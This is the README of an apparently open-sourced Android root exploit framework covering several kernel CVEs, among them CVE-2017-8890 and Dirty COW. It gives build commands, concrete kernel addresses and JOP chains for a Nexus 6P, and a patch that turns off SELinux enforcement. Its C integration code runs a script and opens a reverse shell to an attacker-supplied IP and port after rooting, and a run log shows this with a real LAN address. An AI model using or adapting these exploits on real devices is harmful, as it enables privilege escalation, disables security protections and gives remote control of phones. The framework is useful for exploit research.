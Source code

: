 #+OPTIONS: ^:{}
#+OPTIONS: toc:nil
#+AUTHOR: idhyt

[[https://github.com/idhyt/androotzf][androotzf]] 最近整理电脑时看到的吃灰代码, 早期研究 Android Root 时做的提权方案.

感激曾经一起学习和共事的伙伴们, 开源大部分功能为后来者提供一套学习素材.

** Warning

*请遵守GPL开源协议, 请遵守法律法规, 本项目仅供学习和交流, 请勿用于非法用途!*

*道路千万条, 安全第一条, 行车不规范, 亲人两行泪.*

** Android Root Zap Framework [100%]

- [X] 通用的序列化root适配参数
- [X] 非常容易集成, 只需要根据漏洞实现任意读写即可
- [X] 通用内核提取patch方案, 任意读写后一个函数全搞定
- [X] 内核保护机制绕过(PXN, SElinux)
- [X] 部分厂商内核保护机制绕过(huawei, samsung, oppo, vivo)

** Exploit(部分)

*1001*: CVE-2017-8890 v1版, 适配Nexus6P

*1002*: CVE-2017-8890 v2版, 适配华为P10

*1003*: CVE-2017-8890 兼容所有64位机型，如Nexus6p, 华为MT7, MT10, P10等

*1004*: CVE-2017-8890 针对32位机型，如Nexus5

*1010*: CVE-2017-9077 同CVE-2017-8890

*1021*: CVE-2015-1805 V1, 适配SM-A700L

*1022*: CVE-2015-1805 V2, 适配更多机型

*1041*: CVE-2015-3636 适配了nexus4等机型

*1051*: CVE-2016-5195 dirtycow漏洞, android 5.0以下机型

** Build

需要保证主机上存在 make 和 ndk-build (版本过高可能存在兼容性问题, 建议小于25以下版本)

#+begin_src shell

  make build RS=CVE-2015-1805/1022

#+end_src

** Integration

*** 标志位

#+begin_example

n=sn&k=[101=kfunc1;102=kfunc2;]&j=[index1=jop1;0x=0x0;index2=jop2;0x0=0x0;]&p[addr=value=len;]

#+end_example


- n: 方案号

- k: *内核函数* 地址以及一些常用的 *偏移量*, 需要提前在 *param.h* 中声明, 包含在 *[]* 中，用 *;* 分割, 结尾必须包含 *;*

- j: jop地址, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;* , 每条jop以 *0x0=0x0* 结尾, 结尾必须包含 *;* , 预留了5条jop

- p: root后patch地址与内存修复, 主要针对selinux和需要修复的寄存器, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;*

- r: 可选参数, 反弹shell和脚本, 需要提前在 *param.h* 中声明, 包含在 *[]* 中, 用 *;* 分割, 结尾必须包含 *;*

每个参数标志位由 *&* 分割, 如：

#+begin_example

n=sn&k=[101=kfunc1;102=kfunc2;]&j=[index1=jop1;0x=0x0;index2=jop2;0x0=0x0;]&p[addr=value=len;]&r=[901=ip;902=port;903=install.sh;]

#+end_example

*** 适配参数示例

Nexus 6P 适配参数如下:

#+begin_src shell

  ./rootz "n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]&j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]&p=[0xffffffc00193a1bc=0x0=0x4;]"

#+end_src

n=1001: 方案号1001

#+begin_example

k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]

#+end_example

param.h中定义了

#+begin_src c

  #define k_ptmx_fops "101"
  #define k_ptmx_ioctl_offset "102"
  #define k_init_task "104"
  #define k_task_security_offset "105"

#+end_src

最终解析后会自动赋值. (r字段相同解析方式)

#+begin_example

j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]

#+end_example

以 0x0=0x0 分割，总共2条jop, 解析后对应的jop结构为

#+begin_example

jop1:
{0x180, 0xaaaaaaaa}
{0x158, 0xbbbbbbbb}
{0x2d0, 0xffffffc00024c2c4}
{0x0, 0x0}
jop2:
{0x0, 0xffffffc000afe07c}
{0x28, 0xbbbbbbbb}
{0x48, 0xffffffc0002ef958}
{0x90, 0xdddddddd}
{0x10, 0xffffffc000ce6000}
{0x8, 0xffffffc000318610}
{0x0, 0x0}

#+end_example

p=[0xffffffc00193a1bc=0x0=0x4;]

总共一个patch的地址，地址为0xffffffc00193a1bc(selinux_enforcing), 值为0, 长度4个字节

解析成对应的patch结构为

#+begin_example

p_patch:
{0xffffffc00193a1bc, 0x0, 0x4}
{0x0, 0x0, 0x0}

#+end_example

*** 新增root方案集成

代码部分需要引入参数解析部分内容, 主要为 *rootz_before* 和 *rootz_after* 两个函数, 代码形似

#+begin_src c

  int main(int argc, char *argv[]) {

    if(rootz_before(argc, argv)) {
      log_dump(LOG_ERR, "[-] rootz_before failed!\n");
      return -1;
    }

    // 提权操作
    exploit();

    if(rootz_after()) {
      log_dump(LOG_ERR, "[-] rootz_after failed!\n");
    }

    while(1);

    return 0;
  }

#+end_src

引入的代码内容如下:


#+begin_src c

  /* ------------------ root define begin ------------------- */
  #include "rootz.h"
  #include "log.h"

  /* adp args */
  static int adp_sn;
  static unsigned long adp_init_task;
  static unsigned long adp_task_security_offset;

  static unsigned long adp_ptmx_fops;
  static unsigned long adp_ptmx_ioctl_offset;
  static unsigned long adp_patch_ptmx_ioctl_jop;

  /* run script path */
  static char adp_script_path[0xff] = { 0 };

  /* reverse shell ip&port */
  static char adp_rshell_ip[0x40] = { 0 };
  static char adp_rshell_port[0x10] = { 0 };

  /*
    初始化适配参数
  ,*/
  #include "dict.h"

  extern dict_t *transl_param_dict;

  static int get_adp_ulval(char *name, unsigned long *value) {
    char *var;

    if (!dict_get(transl_param_dict, name, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get %s failed\n", name);
      return 0;
    }
    ,*value = strtoul(var, NULL, 16);
    log_dump(LOG_DEBUG, "%s = 0x%lx\n", name, *value);
    return 1;
  }

  static int get_adp_str(char *name, char *value, int len) {
    char *var;

    if (!dict_get(transl_param_dict, name, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get %s failed\n", name);
      return 0;
    }
    strncpy(value, var, len);
    log_dump(LOG_DEBUG, "%s = %s, %d\n", name, value, strlen(value));
    return 1;
  }

  static int rootz_before(int argc, char *argv[]) {
    // 设置日志路径, 不设置则打印到控制台
    // set_logfile_path("/data/local/tmp/8890.log");
    // 适配参数初始化
    if (parse_args(argc, argv) < 0) {
      log_dump(LOG_ERR, "[-] parse_args failed\n");
      return -1;
    }

    char *var;

    // 0 failed

    /* root before */
    if (!dict_get(transl_param_dict, n_sn, (void **)&var)) {
      log_dump(LOG_ERR, "[-] get n_sn failed\n");
      return -1;
    }
    adp_sn = atoi(var);
    log_dump(LOG_DEBUG, "adp_sn = %d\n", adp_sn);

    if(!get_adp_ulval(k_init_task, &adp_init_task)) return -1;
    if(!get_adp_ulval(k_task_security_offset, &adp_task_security_offset)) return -1;
    if(!get_adp_ulval(k_ptmx_fops, &adp_ptmx_fops)) return -1;
    if(!get_adp_ulval(k_ptmx_ioctl_offset, &adp_ptmx_ioctl_offset)) return -1;
    if(!get_adp_ulval(j_patch_ptmx_ioctl_jop, &adp_patch_ptmx_ioctl_jop)) return -1;

    /* root after */
    get_adp_str(r_script_path, adp_script_path, sizeof(adp_script_path));
    get_adp_str(r_rshell_ip, adp_rshell_ip, sizeof(adp_rshell_ip));
    get_adp_str(r_rshell_port, adp_rshell_port, sizeof(adp_rshell_port));

  #if 0
    printf(" adp_init_task = 0x%lx\n", adp_init_task);
    printf(" adp_task_security_offset = 0x%lx\n", adp_task_security_offset);
    printf(" adp_ptmx_fops = 0x%lx\n", adp_ptmx_fops);
    printf(" adp_ptmx_ioctl_offset = 0x%lx\n", adp_ptmx_ioctl_offset);
    printf(" adp_patch_ptmx_ioctl_jop = 0x%lx\n", adp_patch_ptmx_ioctl_jop);

  #endif


    return 0;
  }

  /*
    提权过后的操作
  ,*/

  static int rootz_after() {
    char *var;

    if(strlen(adp_script_path)) {
      run_shell_commond("/system/bin/sh", adp_script_path);
    }

    if(strlen(adp_rshell_ip) && strlen(adp_rshell_port)) {
      log_dump(LOG_DEBUG, "rshell: ip = %s, port = %s\n", adp_rshell_ip, adp_rshell_port);
      rshell_simple(adp_rshell_ip, adp_rshell_port);
    }

    dict_destory(transl_param_dict);
    free(transl_param_dict);
    return 0;
  }

  /* ------------------ root define end ------------------- */

#+end_src

完整的参数解析流日志：

#+begin_src shell

  [*] /system/bin/sh -c "/data/local/tmp/rootz 'n=1001&k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]&j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]&p=[0xffffffc00193a1bc=0x0=0x4;]&r=[901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]'"
  args: n=1001
  key = n, value = 1001
  args: k=[101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]
  key = k, value = [101=0xffffffc001a044a0;102=0x48;104=0xffffffc001779fe0;105=0x70;201=0xffffffc00074c954;]
  args: j=[0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]
  key = j, value = [0x180=0xaaaaaaaa;0x158=0xbbbbbbbb;0x2d0=0xffffffc00024c2c4;0x0=0x0;0x00=0xffffffc000afe07c;0x28=0xbbbbbbbb;0x48=0xffffffc0002ef958;0x90=0xdddddddd;0x10=0xffffffc000ce6000;0x8=0xffffffc000318610;0x0=0x0;]
  jop num = 2
  args: p=[0xffffffc00193a1bc=0x0=0x4;]
  key = p, value = [0xffffffc00193a1bc=0x0=0x4;]
  p_addr = 0xffffffc00193a1bc, p_value = 0x0, p_len = 0x4
  args: r=[901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]
  key = r, value = [901=192.168.0.105;902=4000;903=/data/local/tmp/install.sh;]

  transl_param_dict: 0x7104a02060
  104 => 0xffffffc001779fe0
  105 => 0x70
  201 => 0xffffffc00074c954
  n => 1001
  901 => 192.168.0.105
  902 => 4000
  903 => /data/local/tmp/install.sh
  101 => 0xffffffc001a044a0
  102 => 0x48

  j_jop:
  jop1:
  {0x180, 0xaaaaaaaa}
  {0x158, 0xbbbbbbbb}
  {0x2d0, 0xffffffc00024c2c4}
  {0x0, 0x0}
  jop2:
  {0x0, 0xffffffc000afe07c}
  {0x28, 0xbbbbbbbb}
  {0x48, 0xffffffc0002ef958}
  {0x90, 0xdddddddd}
  {0x10, 0xffffffc000ce6000}
  {0x8, 0xffffffc000318610}
  {0x0, 0x0}
  jop3:
  {0x0, 0x0}
  jop4:
  {0x0, 0x0}
  jop5:
  {0x0, 0x0}

  p_patch:
  {0xffffffc00193a1bc, 0x0, 0x4}
  {0x0, 0x0, 0x0}
  adp_sn = 1001
  104 = 0xffffffc001779fe0
  105 = 0x70
  101 = 0xffffffc001a044a0
  102 = 0x48
  201 = 0xffffffc00074c954
  903 = /data/local/tmp/install.sh, 26
  901 = 192.168.0.105, 13
  902 = 4000, 4

#+end_src

** References

[[https://idhyt.blogspot.com/2019/01/cve-2017-8890.html][cve-2017-8890]], [[https://idhyt.blogspot.com/2016/10/cve-2016-5195.html][cve-2016-5195]], [[https://idhyt.blogspot.com/2016/03/cve-2015-3636.html][cve-2015-3636]], [[https://idhyt.blogspot.com/2016/07/cve-2015-1805.html][cve-2015-1805]]
